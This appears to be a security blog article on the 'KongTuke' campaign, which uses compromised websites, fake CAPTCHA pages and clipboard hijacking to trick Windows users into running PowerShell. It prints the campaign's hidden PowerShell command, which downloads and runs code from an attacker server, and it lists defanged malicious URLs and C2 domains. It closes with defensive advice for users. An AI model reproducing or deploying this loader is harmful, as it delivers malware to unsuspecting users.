




KongTuke: The Rise of Clipboard Hijacking Through Fake CAPTCHAs
A new cyberattack chain dubbed “KongTuke” is making headlines in the cybersecurity community for its stealthy social engineering tactics and use of fake CAPTCHA pages to hijack unsuspecting users’ clipboards. This attack, recently document by Bradley Duncan of Palo Alto Networks’ Unit 42 team, leverages legitimate but compromised websites to distribute malicious scripts, trick users, and potentially install unidentified malware on their systems.
How the KongTuke Attack Works
The attack begins subtly—through injected malicious scripts found on seemingly trustworthy websites. One example highlighted in the report is: hxxps://lancasternh[.]com/6t7y.js This script then loads a second-stage payload from: hxxps://lancasternh[.]com/js.php
Once a user visits the site, the malicious code collects device data, such as IP address, browser details, and referrer info—all encoded in Base64 to conceal its behavior.


The Fake CAPTCHA Trap
The user is then redirected to a fake CAPTCHA page—designed to resemble legitimate verification systems. But unlike real CAPTCHAs that ask you to select images or check a box, this one prompts suspicious behavior like:
- Clicking strange buttons
- Pressing keyboard combinations
- Pasting commands into a Windows Run window
This technique is referred to as ClickFix CAPTCHA, a dangerous form of social engineering that manipulates users into executing malicious scripts by disguising them as routine verification steps.
What is Clipboard Hijacking (Pastejacking)?
The real danger begins once the user clicks or interacts with the fake CAPTCHA. A malicious PowerShell command is automatically copied to their clipboard—a technique called clipboard hijacking or pastejacking.
The malware then urges the user to open a Run window (Win + R) and paste the clipboard content—unknowingly executing harmful code.
Here’s an example of the PowerShell payload used: powershell -w h -c "iex $(irm 138.199.156[.]22:8080/$($z = [datetime]::UtcNow; $y = ([datetime]('01/01/' + '1970')); $x = ($z - $y).TotalSeconds; $w = [math]::Floor($x); $v = $w - ($w % 16); [int64]$v))". This command connects to: 138.199.156[.]22:8080
From there, it retrieves additional malicious payloads tailored to the current timestamp.

What Happens After Infection?
According to Unit 42’s report, after the script runs:
- It sends GET and POST requests to its C2 (Command-and-Control) server.
- Communicates with suspicious domains like:
- ecduutcykpvkbim[.]top
- bfidmcjejlilflg[.]top
- Displays signs of AsyncRAT, a powerful remote access trojan used in past cyberespionage campaigns.
Yet, the final malware payload remains unknown, making the threat more dangerous because its endgame is still concealed.

Protect Yourself from KongTuke and Similar Threats
To defend against this evolving threat, cybersecurity experts recommend the following:
- Never paste or run unknown commands: If a website asks you to copy/paste something into a Run prompt, close the site immediately.
- Verify CAPTCHA behavior: Legit CAPTCHAs never ask for system interaction, key presses, or command execution.
- Use updated security software: Install trusted antivirus and anti-malware solutions with web protection to detect malicious scripts.
- Keep your system and browsers updated: Regular updates close security gaps that malware like KongTuke exploit.
- Educate users in your network: Especially in business environments, ensure users are trained to identify fake CAPTCHAs and clipboard hijacking attempts.
The KongTuke cyberattack is a clear reminder of how advanced threat actors are exploiting human behavior and trust in web design. By using fake CAPTCHAs, clipboard hijacking, and malicious scripting, attackers manipulate users into becoming their own attack vectors.
As researchers like Bradley Duncan and platforms like Unit 42 continue to analyze this campaign, staying informed is your first line of defense.
🔒 When in doubt, don’t click. Don’t paste. Stay secure.